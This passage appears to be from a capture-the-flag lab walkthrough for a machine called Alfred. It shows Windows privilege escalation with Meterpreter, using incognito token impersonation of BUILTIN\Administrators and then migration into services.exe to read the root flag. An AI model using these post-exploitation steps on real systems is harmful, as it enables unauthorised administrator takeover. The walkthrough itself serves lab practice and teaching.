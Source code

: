 Load the incognito module and list the available tokens.
```
load incognito
```
```
list_tokens -g
```
<img src="images/05.Alfred/20.png" height="700">

<img src="images/05.Alfred/21.png" height="400">

We can see that there is BUILTIN\Administrators token available. Let's impersonate that token.
```
impersonate_token "BUILTIN\Administrators"
```
Now we will check if we got the privileged access.
```
getuid
```
<img src="images/05.Alfred/22.png" height="150">

We can see that we have higher privileged token but we will not get permissions of privileged user unless we migrate our process to another process with correct privileges . We will migrate our process from shell.exe to services.exe so that we can get the permissions of a privileged user.

We will check the processes and then migrate from shell.exe to services.exe.
```
ps
```
<img src="images/05.Alfred/23.png">

Use the PID of the services.exe to migrate.
```
migrate 668
```
<img src="images/05.Alfred/24.png" height="130">

Now have privileged access and we can read the root flag located at C:\Windows\System32\config.

<img src="images/05.Alfred/25.png" height="80">
